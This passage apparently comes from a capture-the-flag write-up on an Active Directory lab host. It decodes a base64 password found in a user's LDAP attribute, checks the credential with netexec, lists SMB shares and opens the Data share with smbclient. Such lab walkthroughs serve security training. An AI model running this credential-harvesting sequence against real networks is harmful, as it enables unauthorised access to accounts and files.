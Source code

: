 ```
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=📌

[...]
```

`echo 'clk0bjVldmE=' | base64 -d`:
```
rY4n5eva
```

`netexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva🔑
```

`netexec smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares`:
```
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [*] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ🔍
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
```

`smbclient --user 'r.thompson' --password='rY4n5eva' //10.10.10.182/Data`:
```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Jan 26 22:27:34 2020
  ..                                  D        0  Sun Jan 26 22:27:34 2020
  Contractors                         D        0  Sun Jan 12 20:45:11 2020
  Finance                             D        0  Sun Jan 12 20:45:06 2020
  IT                                  D        0  Tue Jan 28 13:04:51 2020
  Production                          D        0  Sun Jan 12 20:45:18 2020
  Temps                               D        0  Sun Jan 12 20:45:15 2020

                6553343 blocks of size 4096. 1625348 blocks available
```
